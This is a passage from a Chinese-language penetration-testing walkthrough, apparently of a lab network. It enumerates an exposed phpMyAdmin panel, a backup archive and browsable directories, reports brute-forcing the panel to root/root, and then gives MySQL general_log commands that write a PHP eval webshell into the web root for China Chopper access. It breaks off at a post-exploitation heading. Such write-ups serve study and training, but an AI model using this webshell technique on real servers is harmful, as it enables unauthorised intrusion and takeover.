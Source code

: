 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d8d6d9d3238bc609.png)<br>

发现phpmyadmin后台登录地址：[http://192.168.10.14/phpmyadmin/](http://192.168.20.10/phpmyadmin/)

发现一个压缩包文件，该文件是网站的压缩包文件：[http://192.168.10.14/beifen.rar](http://192.168.20.10/beifen.rar)

发现phpinfo文件：[http://192.168.10.14/phpinfo.php](http://192.168.20.10/phpinfo.php)

发现一些比较敏感的目录，这些目录都存在目录遍历漏洞
- [http://192.168.10.14/yxcms/robots.txt](http://192.168.20.10/yxcms/robots.txt)
- [http://192.168.10.14/yxcms/data/](http://192.168.20.10/yxcms/data/)
- [http://192.168.10.14/yxcms/public/](http://192.168.20.10/yxcms/public/)
- [http://192.168.10.14/yxcms/upload/](http://192.168.20.10/yxcms/upload/)
- [http://192.168.10.14/yxcms/protected/](http://192.168.20.10/yxcms/protected/)
[![](https://p0.ssl.qhimg.com/t010608680f00a3e3e3.png)](https://p0.ssl.qhimg.com/t010608680f00a3e3e3.png)

### phpmyadmin后台getshell

对phpmyadmin后台进行爆破，得到账号密码：root/root

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012dd7a10ba624a305.png)

进入phpmyadmin后台后，获取shell。传送门：[phpmyadmin爆破和后台getshell](https://blog.csdn.net/qq_36119192/article/details/103461736)

这里由于 secure_file_priv的值为NULL，所以我们不能利用写into outfile写木马getshell。

[![](https://p3.ssl.qhimg.com/t01e0ed04ee640d8841.png)](https://p3.ssl.qhimg.com/t01e0ed04ee640d8841.png)

这里我们利用日志文件Getshell。传送门：[phpmyadmin利用日志文件Getshell](https://blog.csdn.net/qq_36119192/article/details/103461736#%E5%88%A9%E7%94%A8%E6%97%A5%E5%BF%97%E6%96%87%E4%BB%B6Getshell)

执行以下命令

```
set global general_log=on;                                     #开启日志
set global general_log_file='C:/phpstudy/www/yxcms/hack.php';  #设置指定文件为网站日志存放文件
SELECT '&lt;?php eval($_POST["cmd"]);?&gt;'               #执行该语句，会将该命令写入日志文件中点击并拖拽以移动
```

最后用菜刀连接，如下。

[![](https://p1.ssl.qhimg.com/t01d68cc11bff4725be.png)](https://p1.ssl.qhimg.com/t01d68cc11bff4725be.png)

## 



## 后渗透第一步

在拿到了Web服务器的权限后，我们就要尽可能多的搜集该服务器的信息，然后搭建隧道通往内网！
